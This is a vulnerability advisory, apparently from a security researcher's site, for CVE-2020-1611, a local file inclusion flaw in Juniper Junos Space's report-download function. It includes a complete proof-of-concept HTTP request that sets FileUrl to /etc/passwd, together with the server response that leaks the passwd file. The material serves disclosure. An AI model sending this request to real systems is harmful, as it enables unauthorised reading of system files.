 ```yaml
---
title: Juniper Junos Space Local File Inclusion Vulnerability
description: Juniper Junos Space prior to 19.4R1 Local File Inclusion Vulnerability
header: Juniper Junos Space prior to 19.4R1 Local File Inclusion Vulnerability
tags: ['advisories']
---
```

A Local File Inclusion vulnerability (CVE-2020-1611) in Juniper Networks Junos Space allows an attacker to view all files on the target when the device receives malicious HTTP packets.

<!--more-->

## Juniper Junos Space Local File Inclusion
Juniper Junos Space prior to 19.4R1 is vulnerable to a local file inclusion vulnerability. An attacker with normal user rights could exploit this vulnerability.

The "Download Report" function is vulnerable.

Base Score: 6.5<br />
Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N

Links:

 - https://nvd.nist.gov/vuln/detail/CVE-2020-1611
 - https://kb.juniper.net/InfoCenter/index?page=content&id=JSA10993

### Example

GET Parameters:

 - Set "Format" to "txt"
 - Set "FileUrl" to a local path

Request:<br />

```http
GET /mainui/download?X-CSRF=Y581SFvKU5INQPItBUoNj4NKf4IuqjSyywfRylPN3GLYaML3fM074gV2AIPBQjHEJsuJ9d7
&type=downloadGROpenReport&_browserId=1553107455361
&FileUrl=/etc/passwd&Format=txt&nodeHost=space-000311c3b873 HTTP/1.1
Host: 10.10.10.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.10/mainui/nLegacy.jsp?bid=1553107455361&appName=CMP
DNT: 1
Connection: close
Cookie: ext-$sidebar_gettingStarted_checkbox=o%3Achecked%3Db%253A0;
DWRSESSIONID=sicWsVGWEjxdNYR7RJ60rCtbBrOmy0JHBm4h;
JSESSIONID="aoVrgUa7V1prIWVO5KEmCqF6QGuuYZ44RshRxEYHAJXqQDCNBjV6pLKiaaXQx2jWjGWw5TxnDxkKtsi
_.space-000311c3b873:server3";
JSESSIONIDSSO=Cm5qb87syONJ2lku1dadTx-SVyaoy0k9lt-bwSnTkfFrdONVfvmzrxB+g8xny4gjyKk_;
X-CSRF=Y581SFvKU5INQPItBUoNj4NKf4IuqjSyywfRylPN3GLYaML3fM074gV2AIPBQjHEJsuJ9d7; JxRunningBids=_1553107455361_
``` 

<br />Response:<br />

```http
HTTP/1.1 200 OK
Date: Wed, 24 Apr 2019 13:32:31 GMT
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
Pragma: No-cache
Cache-Control: no-cache,no-store,must-revalidate,private
Expires: Thu, 01 Jan 1970 00:00:00 UTC
Content-Disposition: attachment; filename="passwd"
Content-Type: application/octet-stream
Content-Length: 1345
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:2:2:daemon:/sbin:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
mysql:x:499:499:MySQL server:/var/lib/mysql:/sbin/nologin
cassandra:x:498:498::/var/lib/cassandra:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
gluster:x:497:497:GlusterFS daemons:/var/run/gluster:/sbin/nologin
jboss:x:500:500::/usr/local/jboss:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
saslauth:x:496:76:Saslauthd user:/var/empty/saslauth:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
unbound:x:495:495:Unbound DNS resolver:/etc/unbound:/sbin/nologin
redis:x:494:494:Redis Server:/var/lib/redis:/sbin/nologin
radvd:x:75:75:radvd user:/:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
qemu:x:107:107:qemu user:/:/sbin/nologin
slipstream:x:493:493::/usr/local//slipstream/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74::/var/empty/sshd:/sbin/nologin
postgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bash
tcpdump:x:72:72::/:/sbin/nologin
pcap:x:77:77:::/sbin/nologin
opennms:x:503:504::/home/opennms:/bin/bash
cassandr:x:504:505::/home/cassandr:/bin/bash
```
<br />
**Michael Wollner** ([@Ibonok](https://github.com/Ibonok))
